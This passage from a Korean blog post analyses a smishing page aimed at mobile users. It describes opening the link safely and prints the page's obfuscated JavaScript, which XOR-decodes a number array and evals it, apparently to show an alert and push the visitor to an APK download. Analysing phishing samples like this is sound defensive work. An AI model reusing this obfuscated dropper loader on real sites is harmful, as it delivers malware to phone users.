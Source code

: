## 낚여 주기

먼저 이건 모바일을 대상으로 한 공격이 분명하므로 함부로 모바일에서 열어서는 안 됩니다. 그래서 메시지 내용을 PC로 전송한 후에, Chrome에서 Guest계정으로 시크릿 모드를 적용한 후에 열어봤습니다. 

물론 모바일을 대상으로 한 공격이었기 때문에 PC버전으로 열었을 때에는 아무런 반응이 없었습니다.

![image-20210119173845249](imgs/image-20210119173845249.png)

여기서 실망하지 않고, 가볍게 개발자 도구를 통해 모바일 버전으로 다시 열어줍니다.

![image-20210119173933316](imgs/image-20210119173933316.png)

되기는 되는데요...이...이게모고...

제가 보기엔 외국 업체에서 한국인에게 돈을 주고 번역을 맡겼는데, 그 번역을 한 한국인이 최소한의 양심은 있어서 일부러 맞춤법을 틀리게 쓴 것이 아닌가...생각됩니다. 아무리 생각해도 저 맞춤법 오류는 절대로 번역기에서는 나올 수가 없고, 네이티브 한국인만이 할 수 있는 오류입니다.

이 페이지의 소스코드는 아래와 같았습니다.

```html
<html>
<head>
    <title></title>
</head>
<body>
<div>
    <script>
        var arr = "64200,64197,64204,64219,64221,64129,64139,18941,64137,18970,15849,64137,15285,17645,14349,64137,13853,12145,15853,64137,15789,12253,64137,64137,12277,13468,64137,22197,15241,20149,64137,64202,64193,64219,64198,64196,64204,64137,14325,14409,17965,12973,15853,64137,16236,18905,15837,10257,64137,12273,14453,21657,64137,18109,19748,18529,18509,64135,64139,64128,64146,64163,64137,64137,64137,64137,64137,64137,64137,64137,64197,64198,64202,64200,64221,64192,64198,64199,64135,64219,64204,64217,64197,64200,64202,64204,64129,64139,64134,64207,64220,64203,64220,64197,64207,64220,64192,64198,64194,64135,64200,64217,64194,64139,64128,64146,64169".split(',').map(function(a){return a|0});
        var b = arr[arr.length-1];
        for(var i=0;i<arr.length-1;i++) {
            arr[i] =arr[i]^b;
        }
        arr.pop();
        eval(String.fromCharCode(...arr));
    </script>
</div>
</body>
</html>
```
